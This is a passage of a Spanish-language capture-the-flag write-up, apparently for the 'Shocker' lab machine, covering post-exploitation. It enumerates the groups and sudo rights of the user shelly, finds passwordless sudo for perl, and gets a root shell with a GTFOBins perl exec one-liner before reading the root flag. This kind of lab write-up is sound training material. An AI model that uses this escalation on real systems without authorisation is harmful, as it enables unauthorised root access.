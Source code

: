 
<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Post" style="text-align:center;">Post Explotación</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Enum">Enumeración de Máquina</h2>

Como siempre, veamos los privilegios que tenemos:
```bash
shelly@Shocker:/home/shelly$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

No veo algo que nos pueda servir, aunque me llama la atención el **lxd**, quizá tenga un Exploit, pero eso ya quedara de tarea para después. 

Antes de investigarlos, veamos si tenemos algún permiso como **SUDO** en un archivo:
```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Podemos ejecutar **perl** como Root, busquemos en **GTObins** si hay alguna forma de escalar privilegios.

<br>

<h3 id="perl">Escalando Privilegios con Perl</h3>

* https://gtfobins.github.io/gtfobins/perl/#sudo

Si hay una forma, intentémosla:
```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
cd /root
ls
root.txt
cat root.txt
```
Listo! Ya conseguimos las flags de esta máquina.
